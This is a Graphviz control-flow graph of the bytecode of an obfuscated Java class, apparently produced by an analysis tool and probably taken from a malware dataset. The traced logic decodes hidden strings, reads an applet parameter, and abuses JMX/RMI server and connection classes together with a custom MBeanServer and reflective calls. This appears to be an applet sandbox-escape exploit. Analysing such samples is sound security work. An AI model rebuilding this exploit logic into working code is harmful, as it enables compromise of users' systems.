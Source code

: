 digraph "" {
    "r0 := @this: main"
    "push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\""
    "r0 := @this: main"->"push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\"";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"
    "push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "store.r r1"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"store.r r1";
    "push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\""
    "store.r r1"->"push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\"";
    "push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "store.r r2"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"store.r r2";
    "load.r r0"
    "store.r r2"->"load.r r0";
    "push \"\\\"/.*\u001b,;\""
    "load.r r0"->"push \"\\\"/.*\u001b,;\"";
    "push \"\\\"/.*\u001b,;\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"virtualinvoke <main: java.lang.String getParameter(java.lang.String)>";
    "staticput <main: java.lang.String __v>"
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"->"staticput <main: java.lang.String __v>";
    "staticget <main: java.lang.String __v>"
    "staticput <main: java.lang.String __v>"->"staticget <main: java.lang.String __v>";
    "load.r r2"
    "staticget <main: java.lang.String __v>"->"load.r r2";
    "load.r r1"
    "load.r r2"->"load.r r1";
    "staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>"
    "load.r r1"->"staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>";
    "staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>"->"staticput <main: java.lang.String __v>";
    "push \"}v{w\""
    "staticput <main: java.lang.String __v>"->"push \"}v{w\"";
    "push \"}v{w\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticput <main: java.lang.String __Y>"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"staticput <main: java.lang.String __Y>";
    "staticput <main: java.lang.String __Y>"->"staticget <main: java.lang.String __v>";
    "ifnonnull push null"
    "staticget <main: java.lang.String __v>"->"ifnonnull push null";
    "return"
    "ifnonnull push null"->"return";
    "push null"
    "ifnonnull push null"->"push null";
    "push null"->"store.r r1";
    "staticget <main: java.lang.String filename>"
    "store.r r1"->"staticget <main: java.lang.String filename>";
    "staticget <main: java.lang.String filename>"->"load.r r0";
    "store.r r0"
    "load.r r0"->"store.r r0";
    "goto load.r r1"
    "store.r r0"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "ifnull goto return"
    "load.r r1"->"ifnull goto return";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "ifnull goto return"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r r0";
    "store.r r0"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"load.r r0";
    "new y6u7"
    "load.r r0"->"new y6u7";
    "dup1.r"
    "new y6u7"->"dup1.r";
    "specialinvoke <y6u7: void <init>()>"
    "dup1.r"->"specialinvoke <y6u7: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <y6u7: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "push 0L"
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"push 0L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"*%,$+.0;3\""
    "load.r r0"->"push \"*%,$+.0;3\"";
    "push \"*%,$+.0;3\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push null";
    "push null"->"load.r r1";
    "load.r r1"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0L";
    "push 0L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto return"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto return";
    "goto return"->"return";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "load.r r0"->"store.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticinvoke <q3p0: java.lang.Object __s(java.lang.String,java.lang.Class)>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticinvoke <q3p0: java.lang.Object __s(java.lang.String,java.lang.Class)>";
    "checkcast"
    "staticinvoke <q3p0: java.lang.Object __s(java.lang.String,java.lang.Class)>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"goto load.r r1";
}
